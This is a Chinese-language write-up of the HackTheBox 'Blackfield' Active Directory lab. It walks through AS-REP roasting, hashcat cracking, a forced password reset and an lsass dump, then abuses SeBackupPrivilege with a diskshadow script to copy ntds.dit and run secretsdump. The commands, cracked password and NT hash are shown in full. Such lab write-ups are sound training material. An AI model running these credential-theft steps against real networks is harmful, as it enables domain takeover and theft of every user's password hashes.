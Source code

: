 ```yaml
---
title: Hackthebox-Blackfield-Windows_Active
date: 2025-05-13 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```




# 信息收集

## nmap

![image-20250512110303469](./Blackfield-Windows_Active/image-20250512110303469.png)

## ldapsearch

![image-20250512112158150](./Blackfield-Windows_Active/image-20250512112158150.png)

```
DomainDnsZones.Blackfield-Windows_Active.local
ForestDnsZones.Blackfield-Windows_Active.local
```

## smb

`smbmap -H 10.10.10.192 -u null` ，匿名可以读取`Profiles`和`IPC`

![image-20250513161438718](./Blackfield-Windows_Active/image-20250513161438718.png)

成功连接到后有很多空文件夹,将空文件夹导出作为用户名，看看是否有不需要Kerberos 认证的

![image-20250513161618503](./Blackfield-Windows_Active/image-20250513161618503.png)

## AS-REP Roasting攻击

```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 Blackfield.local/$user ; done | teegetnpusers
```

![image-20250512145341889](./Blackfield-Windows_Active/image-20250512145341889.png)

```
hashcat -m 18200 -a0 password.txt /usr/share/wordlists/rockyou.txt
```

![image-20250512145326524](./Blackfield-Windows_Active/image-20250512145326524.png)

```
#00^BlackKnight
```

使用该用户去尝试smb，winrm是否可以登陆

```
smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
```

![image-20250512150358580](./Blackfield-Windows_Active/image-20250512150358580.png)

smb有其他可以读的目录，但是都没有有用信息

使用bloodhound-python读取域信息，然后导入bloodhound，使用bloodhound-python该py脚本读取到的信息建议导入到4.2或4.3版本的bloodhound中，其他版本可能会导入失败

```
bloodhound-python -u support -p '#00^BlackKnight' -d Blackfield-Windows_Active.local -ns
10.10.10.192 -c DcOnly
```

![image-20250512152229318](./Blackfield-Windows_Active/image-20250512152229318.png)

`support`用户对`audit2020`有强制修改密码的权限,现在知道support的密码，尝试修改audit2020的密码

![image-20250512152653172](./Blackfield-Windows_Active/image-20250512152653172.png)

修改成功，密码有复杂度要求，修改时需要注意

然后使用audit2020用户访问smb的forensic目录

![image-20250513165325429](./Blackfield-Windows_Active/image-20250513165325429.png)

![image-20250513165337777](./Blackfield-Windows_Active/image-20250513165337777.png)

`mimikatz`就是从`lsass.DMP`中转储明文凭证和hash值，所以将该zip下载到本地，但是因为网速问题下载失败，可以尝试挂载到本地目录，然后copy出来

linux下可以使用pypykatz工具来转储这个文件

![image-20250512175713669](./Blackfield-Windows_Active/image-20250512175713669.png)

```
svc_backup：9658d1d1dcd9250115e2205d9f48400d
```

对该用户进行smb和winrm测试，winrm可以远程连接（密码使用NT值），远程连接之后就可以得到user.txt

![image-20250513103138134](./Blackfield-Windows_Active/image-20250513103138134.png)

# 提权

该用户有SeBackupPrivilege，并且属于Backup Operators组

<font color=green>他们可以提取用户通常无法访问的文件和目录。属于该组的权限允许用户备份任何文件，但是，一旦文件被打开用于读取访问，备份操作员可以将其重定向到任何位置。</font>>

![image-20250513170740551](./Blackfield-Windows_Active/image-20250513170740551.png)

![image-20250513170836948](./Blackfield-Windows_Active/image-20250513170836948.png)

可以使用该权限来读取想读取的文件

下载所需要使用的文件https://github.com/giuliano108/SeBackupPrivilege.git

![image-20250513110908007](./Blackfield-Windows_Active/image-20250513110908007.png)

![image-20250513111514423](./Blackfield-Windows_Active/image-20250513111514423.png)

![image-20250513111526180](./Blackfield-Windows_Active/image-20250513111526180.png)

![image-20250513111540561](./Blackfield-Windows_Active/image-20250513111540561.png)

![image-20250513111558796](./Blackfield-Windows_Active/image-20250513111558796.png)

![image-20250513111607315](./Blackfield-Windows_Active/image-20250513111607315.png)

无权读取root.txt，读取了notes.txt，root.txt可能是加密的

##  获取ntds.dit

接下来想办法获取 `ntds.dit`文件，该文件存放所有密码哈希的数据库，但是是无法直接读取的，因为当目标机器运行时，该文件保持被使用状态，这使得无法使用常规方法复制。因此，为了绕过此限制，我们需要使用 diskshadow 功能。这是一个内置的 Windows 功能，允许我们创建一个当前正在使用的驱动器的副本。

diskshadow可以以命令的形式运行文件中的内容，逐行运行，脚本内容：

文章建议在 C:\windows\system32下运行，有的用户可能没有该目录下的可写权限（运行时可以将文件放在其他目录），运行以下命令就会失败，

```
set context persistent nowriters
add volume c: alias df
create
expose %df% z:
```

可以指定创建文件的目录

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```

在上传到windows时需要进行一下`unix2dos`转码

运行命令：`diskshadow /s c:\programdata\vss.dsh`

![image-20250513153956559](./Blackfield-Windows_Active/image-20250513153956559.png)

然后将ntds.dit和system备份即可

```
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit C:\Users\svc_backup\Desktop
reg.exe save hklm\system  C:\Users\svc_backup\Desktop

备份到指定目录，然后下载到本地
```

 然后导出hash

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```

![image-20250513162016928](./Blackfield-Windows_Active/image-20250513162016928.png)

![image-20250513162213589](./Blackfield-Windows_Active/image-20250513162213589.png)